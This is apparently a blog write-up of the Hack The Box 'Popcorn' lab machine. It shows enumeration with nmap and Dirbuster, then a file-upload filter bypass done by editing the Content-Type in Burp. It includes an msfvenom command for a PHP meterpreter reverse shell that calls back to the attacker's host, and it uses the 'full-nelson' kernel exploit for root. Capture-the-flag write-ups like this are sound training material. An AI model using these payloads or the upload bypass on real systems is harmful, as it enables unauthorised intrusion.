 ```yaml
---
layout: post
title: HTB - Popcorn Writeup
date: 2019-01-06
image: '/images/posts/htb/popcorn/popcorn.jpg'
categories: ["writeups"]
tags: ["writeups", "popcorn", "htb"]
---
```


* Box: Popcorn
  - Difficulty: Medium
  - Points: 20
  - Release: 15 Mar 2017
  - IP: 10.10.10.6

###Initial Enumeration

####1.Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA popcorn.nmap 10.10.10.6`

We can see 22 and 80 are open. Let's navigate to the web browser and access the webpage on port 80.

<img src="/images/posts/htb/popcorn/popcorn1.jpg">

####Directory Enumeration

Running Dirbuster with the lowercase medium directory list shows us a directory called "torrent". So let's navigate to that directory in the browser.

<img src="/images/posts/htb/popcorn/popcorn2.jpg">

After navigating to the page, we see that we can sign up and upload only **.torrent** files

###Exploitation

####Testing what we can do/not do with uploads

Let's upload a test .torrent file and see what happens:

<img src="/images/posts/htb/popcorn/popcorn3.jpg">

Note that after submitting the file, we can see an "Edit Settings" option. Clicking this shows us the ability to upload screenshots in PNG format.

<img src="/images/posts/htb/popcorn/popcorn5.jpg">

<img src="/images/posts/htb/popcorn/popcorn4.jpg">

<img src="/images/posts/htb/popcorn/popcorn9.jpg">


This upload has 2 checks. It will confirm the uploaded file matches valid image extensions and it will check the POST data **Content-Type** is set to **image/png**.

Simply create a reverse shell payload and name it something like "write.png.php"
This command will generate one for you:

`msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.9 lport=444 -f raw`

Load up BurpSuite to intercept the file transfer. This will allow us to edit the parameters before they are forwarded to the web server.

Upload this file in the "Edit Settings" option as if it were a screenshot.

Your burpsuite should something like the below. You will want to change "application/php" to "image/png" and remove the ".png" portion from the filename.

<img src="/images/posts/htb/popcorn/popcorn8.jpg">

Our DirBuster results show a  "torrents" directory. Navigating to that shows us another "upload" directory within. Here we can see a list of all file uploads.

Next, we're going to set up a listener and capture the reverse_tcp shell.

####Metasploit

Load up metasploit and set a listener for the php/meterpreter/reverse_tcp payload you just uploaded.

<img src="/images/posts/htb/popcorn/popcorn7.jpg">

Once the listener is started, you can go ahead and click on the file in the "/torrent/upload" directory.
This should execute the file you uploaded and establish a connection back to your metasploit listener.
<img src="/images/posts/htb/popcorn/popcorn6.jpg">
Once we're in, the user flag can be found at **/home/george/user.txt**

<img src="/images/posts/htb/popcorn/popcorn11.jpg">

###Privilege Escalation

Getting root is fairly trivial, we can use the known exploit called "full-nelson".

We just need a way to get the C code for the exploit onto this machine.

More information on that exploit here: [exploits/15704](https://www.exploit-db.com/exploits/15704)

I just went ahead and setup a "**python -m SimpleHTTPServer**" and used "**wget**" to pull the file from my attacking box.

Once the file is present, compile it and run it like so:

You will get a root shell and can find the root flag in **/root/root.txt**

<img src="/images/posts/htb/popcorn/popcorn10.jpg">
